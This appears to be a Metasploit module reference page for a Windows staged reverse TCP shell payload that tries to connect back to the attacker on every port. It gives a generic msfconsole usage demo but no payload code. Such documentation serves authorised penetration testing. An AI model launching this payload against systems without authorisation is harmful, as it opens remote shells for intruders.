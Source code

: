 ## Windows Command Shell, Reverse All-Port TCP Stager

Spawn a piped command shell (staged). Try to connect back to 
the attacker, on all possible ports (1-65535, slowly)


## Module Name
payload/windows/shell/reverse_tcp_allports

## Authors
* spoonm
* sf
* hdm
* skape





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/shell/reverse_tcp_allports
msf payload(reverse_tcp_allports) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_allports) > set TARGET <target-id>
msf payload(reverse_tcp_allports) > show options
   ... show and set options ...
msf payload(reverse_tcp_allports) > run
```
    
    